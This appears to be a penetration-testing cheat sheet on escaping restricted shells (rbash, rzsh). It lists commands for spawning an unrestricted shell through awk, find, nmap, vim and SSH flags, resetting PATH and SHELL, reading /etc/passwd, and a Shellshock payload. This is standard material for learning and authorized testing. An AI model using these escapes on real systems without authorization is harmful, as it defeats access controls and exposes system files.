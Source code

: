 ```yaml
---
title: Restricted Shell (rbash, rzsh) Bypass
description: Sample text
tags:
    - SSH
refs:
    - https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf
date: 2023-02-11
draft: false
---
```


After logged in a shell, sometimes we faced the error as follow when executing commands.

```bash
-rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
```

The target system uses a **restricted shell** so we may not be able to execute commonly used commands e.g. ls, cd, etc.   
We need to bypass the restriction First.

<br />

## Command Enumeration

First check what commands can we execute.  
Try running varied commands.

```sh
awk 'BEGIN {system("/bin/sh")}'
bash
cat
cd
cp
declare
echo
echo $PATH
echo $SHELL
echo /usr/bin/*
echo /home/<username>/bin/*
echo "bash -i" | tee rbypass.sh
env
export
find
find / -name foobar -exec /bin/sh \;
ftp
git
less
ls
nano
nmap
printenv
printf
# List all files in current directory
printf '%s\n' *(D)
pwd
set
sudo
sudo -l
tar
touch
vi
vim
whereis
which
whoami
zip

# Programming languages
perl
php
python
python2
python3
python3.x
ruby

# Commands with absolute path
/bin/bash
/bin/sh
/usr/bin/cat
/usr/bin/ls


# Special characters
>
>>
<
|
&
$
$(whoami)
;
:
'
"
`
```

<br />

## How to Bypass

### Update Environment Variables

If we can execute **‘export’** command and the desired environment variable (**PATH, SHELL**, etc.) is not readonly, we can update variables.

```bash
export SHELL=/bin/bash
export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin
```

### Autocomplete to List Directories

We can see files and directories in the current directory by inputting the following path and entering **“Tab”** key.

```bash
./.
```

### Copy Shell Command

If we can execute **‘cp’** command, we can copy **/bin/bash** or **/bin/sh** to the current directory.

```bash
cp /bin/bash .
cp /bin/sh .
```

### List/Read Files

If we can use ‘echo’ or ‘printf’ command, we can list all files or read files.

1. **List**

```bash
# List all files
echo /*
echo /.* # list hidden files
echo /home/<username>/*
echo /home/<username>/.* # list hidden files

# List all files in current directory
printf '%s\n' *(D)
```

2. **Read**

```bash
while read line; do echo $line; done < /etc/passwd; echo $line
```

### Nmap

If we can use nmap command, we can escape the restricted shell with the interactive mode.

```bash
nmap --interactive
nmap> !sh
```

### Vi/Vim Editor

If we can use ‘vi’ or ‘vim’ command, we can update the SHELL variable in the vi/vim editor.

```bash
vim # or vi

# In vi/vim editor
:set shell=/bin/bash
:shell
```

### SSH Flags

```bash
# -t: Force pseudo-terminal allocation
ssh <user>@<ip> -t "/bin/bash"
ssh <user>@<ip> -t "/bin/sh"
ssh <user>@<ip> -t "bash --noprofile"
# Shellshock
ssh <user>@<ip> "() {:;}; /bin/bash"
```

If we can enter the shell, run tab-completion by pushing **“Tab”** key.  
We may be able to retrieve commands available.